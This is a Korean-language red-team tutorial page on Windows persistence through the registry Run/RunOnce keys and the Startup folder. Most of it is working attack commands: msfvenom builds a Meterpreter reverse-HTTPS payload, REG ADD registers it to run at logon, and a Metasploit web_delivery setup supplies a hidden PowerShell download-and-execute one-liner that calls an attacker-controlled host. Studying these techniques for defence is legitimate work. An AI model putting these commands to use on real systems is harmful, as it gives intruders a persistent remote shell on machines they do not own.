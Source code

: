 # 레지스트리 / 스타트업 폴더

### 레지스트리&#x20;

윈도우의 레지스트리 키 들 중 다음의 키 들은 유저가 로그인 할 시 자동적으로 특정 프로그램/명령어를 실행한다.&#x20;

1. `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
2. `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
3. `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
4. `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

### 실습&#x20;

레지스트리 키에 원하는 프로그램을 등록시키거나 `cmd.exe /c` 혹은 `powershell -enc -command` 등의 플래그를 이용해 명령어를 실행시키면 된다. 레지스트리 키 추가는 다음의 명령어를 이용한다.&#x20;

```
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경로>
```



#### 레지스트리 + 온디스크 미터프리터&#x20;

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 리버스쉘을 c:\wow 에 옮기기 

# 3. 타겟의 레지스트리 키 변경 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d <프로그램-경>

PS C:\Users\Administrator.CHOI> REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v safestartup /t REG_SZ /d C:\wow\rev.exe
The operation completed successfully.

# 4. 로그오프 후 다시 로그인 -> 리버스쉘 확인 
```

![](<../.gitbook/assets/image (16).png>)

#### 레지스트리 + 인메모리 파워쉘 미터프리터&#x20;

* 파워쉘을 이용한 인메모리 실행을 위해서는 `iex (new-object net.webclient).downloadstring()` 을 이용한다.&#x20;
* 레지스트리 키의 길이 제한은 255자이기 때문에 이에 유의해 레지스트리 키를 생성한다.&#x20;

```
# 1. 메타스플로잇 설정 
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_https
set lhost <ip>
set lport <port>
exploit

# 2. 타겟의 레지스트리 키 변경 - 메타스플로잇의 파워쉘 원라이너 사용 
# #1 번에서 나온 "[*] Using URL: http://192.168.40.182:8080/XXzjZN0FVh" 사용 
REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v <이름> /t REG_SZ /d "<프로그램-경로>"

REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v pshstartup /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden iex(New-Object net.webclient).DownloadString('http://192.168.40.182:8080/XXzjZN0FVh')"

# 3. 로그오프 -> 로그인 후 리버스쉘 확인 
```

![](<../.gitbook/assets/image (5) (1) (2) (2).png>)



### 스타트업 폴더&#x20;

스타트업 폴더는 유저가 로그인 해 세션을 구축할 시 폴더 안의 프로그램을 자동으로 실행시킨다. 공격자들은 스타트업 폴더를 이용해 매번 유저가 로그인 할 때마다 비컨/리버스쉘을 받는 등의 지속성 공격을 실행할 수 있다.&#x20;

스타트업 폴더의 경로는 다음과 같다:&#x20;

* `유저: C:\Users\<유저>\Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\StartUp`&#x20;
* `시스템: C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

로컬 관리자 권한을 갖고 있다면 시스템 스타트업 폴더를 이용할 수 있다. 여기서 실행되는 프로세스들은 어떤 유저가 로그인 하던간에 실행된다.&#x20;

### 실습&#x20;

미터프리터를 생성한 뒤, 타겟 호스트의 스타트업 폴더에 미터프리터 파일을 옮긴다. 그 후 로그오프 -> 로그인을 해서 리버스쉘이 도착하는지 확인한다.&#x20;

```
# 1. 미터프리터 생성 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.40.182 lport=8443 -f exe -o rev.exe

# 2. 미터프리터 타겟 호스트로 전송 

# 3. 타겟 호스트에서 미터프리터를 스타트업 폴더로 복사 
cp <미터프리터 경로> 'C:\Users\<유저-이름>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'

4. 로그오프 -> 로그인 후 리버스쉘 확인 
```

### 레퍼런스&#x20;

{% embed url="https://www.elastic.co/guide/en/security/current/startup-folder-persistence-via-unsigned-process.html" %}

{% embed url="https://labs.withsecure.com/blog/attack-detection-fundamentals-code-execution-and-persistence-lab-2/" %}

{% embed url="https://dmcxblue.gitbook.io/red-team-notes/persistence/registry-keys-startup-folder" %}

<details>

<summary>추가 리서치 - todo </summary>

```
다음 레지스트리 키 들은 스타트업 폴더의 경로를 바꿀 수 있다. 윈도우의 기본 스타트업 폴더 경로가 아니라 다른 폴더 경로를 스타트업 폴더로 바꾸고 싶을 때 이 레지스트리에 값들을 추가한다.
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

</details>
